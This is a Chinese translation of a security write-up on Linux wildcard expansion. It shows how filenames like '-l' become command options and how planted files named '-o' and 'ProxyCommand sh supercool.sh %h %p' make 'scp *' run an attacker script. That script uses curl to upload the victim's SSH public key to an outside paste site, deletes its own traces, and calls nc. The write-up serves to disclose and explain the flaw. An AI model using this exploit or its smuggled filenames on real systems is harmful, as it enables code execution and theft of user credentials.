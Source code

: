 # Linux 通配符可能产生的问题

from:https://dicesoft.net/projects/wildcard-code-execution-exploit.htm

0x00 通配符
--------

* * *

当你在一个bash命令行中输入“*”时，bash会扩展到当前目录的所有文件，然后将他们全部作为参数传递给程序。例如：`rm *`，将会删除掉当前目录的所有文件。

0x01 文件名被当做参数
-------------

* * *

大多数的命令行程序受此影响。例如ls命令，当不适用任何参数时，输出是这个样子的：

```
[stephen@superX foo]$ ls
asdf.txt  foobar  -l

```

如果你想要知道这些文件所属的组和用户，你可以通过”-l"参数来查看：

```
[stephen@superX foo]$ ls -l
total 0
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 -l

```

注意，有一个名字是“-l”的文件，我们试试“ls *”会发生什么。

```
[stephen@superX foo]$ ls *
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar

```

与之前不同的是"ls *” 没有输出-l文件，-l文件被当做了此命令的参数。

此条命令相当于运行：

```
[stephen@superX foo]$ ls asdf.txt foobar -l
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar  

```

0x02 安全问题
---------

* * *

此问题可能导致一些安全问题，当有人参数当中带有一个通配符，又没有事先检查目录下的文件名称。这可能被用来攻击别人电脑。

这个问题是众所周知的，在[http://seclists.org/fulldisclosure/2011/Sep/190](http://seclists.org/fulldisclosure/2011/Sep/190)已经有关于此问题的讨论。

0x03 Proof of Concept Exploit
-----------------------------

* * *

为了证明这个问题可以转化为一个任意代码执行攻击，我们尝试攻击“scp”命令，scp命令提供了-o选项，配置ssh，SSh有涉及运行命令的选项，我们可以利用这一点，让我们的脚本运行。

假设我们有一个目录的控制权限，在该目录下受害者将运行以下命令（想象一下，用户只下载一个web应用程序的源代码，并上传到他们的网络服务器上）：

```
$ scp * user@example.org:/var/www/

```

为了利用这个命令，在目录下我们需要放几个文件：

```
"-o" - SCP 将会把这个文件当做 "-o” 参数。
"ProxyCommand sh supercool.sh %h %p" - SCP 将会把这个文件当做 "-o" 的一个参数。
"supercool.sh" - 这个脚本将会被执行。
"zzz.txt" - 没有任何用处的测试文件。

```

在supercool.sh文件里，有一些恶意的命令：

```
#!/bin/sh

# Upload their SSH public key to the Internet, and put a scary message in /tmp/.
echo "By @DefuseSec and @redragonx..." > /tmp/you-have-been-hacked.txt
echo "This could have been your private key..." >> /tmp/you-have-been-hacked.txt
curl -s -d "jscrypt=no" -d "lifetime=864000"                                \
        -d "shorturl=yes" --data-urlencode "paste@$HOME/.ssh/id_rsa.pub"    \
        https://defuse.ca/bin/add.php -D - |                                \
        grep Location | cut -d " " -f 2 >> /tmp/you-have-been-hacked.txt

# Delete evidence of our attack.
rm ./-o ProxyCommand\ sh\ supercool.sh\ %h\ %p 
echo > ./supercool.sh

# Do what ProxyCommand is supposed to do.
nc -p 22332 -w 5 $1 $2

```

当受害者执行命令时：

```
$ scp * user@example.org:/var/www/
supercool.sh
zzz.txt

```

当他检查自己的/tmp目录下的时候将会看到：

```
$ cat /tmp/you-have-been-hacked.txt
By @DefuseSec and @redragonx...
This could have been your private key...
https://defuse.ca/b/QQ3nxADu 

```

可以在这里下载完整的poc文件：[poc.zip](http://static.wooyun.org/20141017/2014101711552836274.zip)